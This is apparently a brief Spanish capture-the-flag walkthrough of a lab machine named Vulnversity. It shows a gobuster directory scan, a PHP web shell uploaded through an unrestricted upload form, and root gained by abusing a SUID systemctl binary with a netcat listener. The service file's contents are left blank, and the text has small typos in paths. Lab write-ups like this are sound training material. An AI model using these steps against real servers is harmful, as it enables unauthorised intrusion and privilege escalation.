




# Vulnversity

`gobuster dir -u http://10.10.140.84:3333 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 20 -x php,html,js,txt`

/internal podemos subir archivos
Subimos un `sh3ll.phtml` porque es el que nos deja subir
Entramos a /10.10.140.84/internal/uploads/sh3ll.phtml
**www-data**

Encontramos un binario /bin/siystemctl con permiso SUID
Buscamos como explotarlo:
1) Creamos un archivo root.service en /tmp de la máquina víctima:

2) nc en kali
`nc -nvlp 9999`
3) Hacemos en máquina víctima
`systemctl enable /tmp/root.service`
`systemctl start root`
**root**

